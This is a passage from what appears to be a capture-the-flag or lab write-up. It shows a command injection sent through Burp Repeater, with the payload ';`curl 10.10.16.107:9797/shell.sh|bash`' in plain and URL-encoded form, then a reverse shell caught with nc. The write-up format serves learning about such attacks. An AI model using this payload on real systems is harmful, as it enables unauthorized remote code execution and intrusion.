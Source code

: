 ![](./IMG/24.png)

- In burp repeater, using the following payload 
```
;`curl 10.10.16.107:9797/shell.sh|bash`
```
- URL Encoding
```
%3b%60curl+10.10.16.107%3a9797%2fshell.sh%7cbash%60
```
> Remember modify the GET method to POST, since I forget it at first, and it takes me a lot of time to find the issue.

![](./IMG/23.png)

- Check python http service log, it will add one log which is GET /shell.sh 
![](./IMG/25.png)
- Check the nc, the reverse shell will get back.
![](./IMG/26.png)
- Check current user 
